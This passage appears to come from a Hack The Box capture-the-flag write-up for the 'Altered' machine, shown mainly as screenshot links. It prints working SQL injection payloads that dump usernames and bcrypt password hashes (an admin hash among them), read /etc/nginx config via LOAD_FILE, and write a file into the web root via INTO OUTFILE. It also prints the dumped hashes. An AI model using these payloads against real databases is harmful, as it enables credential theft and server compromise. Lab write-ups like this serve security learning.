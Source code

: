 

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extract%20uhc%20database%20and%20prittify.png)


### extract users:name + users:password
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20extratct%20names%20%2B%20passwords.png)

````mysql



{"id":"1000000000 union select 1,2,group_concat(concat('\n',name,':',password)) from uhc.users-- -", "secret":true}

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20extract%20users%20and%20passwords.png)

````bash

big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2,
celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6,
luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.,
tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS,
o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW,
watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq,
mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK,
bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm,
admin:$2y$10$wqBKWXLDzqQ3aMmKDumGx.2Sz31z0XE4uPOBmSLOoMY9cqgvHpYgW

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20LOAD_FILE().png)

## grasp nginx config file
````
{"id":"1000000000 union select 1,2,LOAD_FILE('/etc/nginx/sites-enabled/default')-- -", "secret":true}

`````

## root is @ /srv/altered/public
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Altered/screenshots/burpsuite%20sqli%20get%20nginx%20config%20file.png)

## sqli write to file
````
{"id":"1000000000 union select 1,2,'xenotim' INTO OUTFILE '/srv/altered/public/omg.html')-- -", "secret":true}

`````
